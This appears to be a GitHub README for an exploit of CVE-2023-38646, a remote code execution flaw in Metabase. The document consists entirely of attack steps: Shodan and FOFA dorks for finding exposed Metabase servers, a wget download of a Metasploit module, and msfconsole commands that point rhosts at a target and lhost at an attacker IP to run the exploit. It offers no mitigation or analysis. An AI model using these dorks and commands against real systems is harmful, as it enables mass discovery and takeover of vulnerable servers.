 # CVE-2023-38646
![](https://img.shields.io/static/v1?label=Product&message=Metabase&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Metabase%20open%20source%20before%200.46.6.1%20and%20Metabase%20Enterprise%20before%201.46.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/linux/http/metabase_setup_token_rce.rb
```
```
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set rhosts target_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set lhost attacker_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > run
```
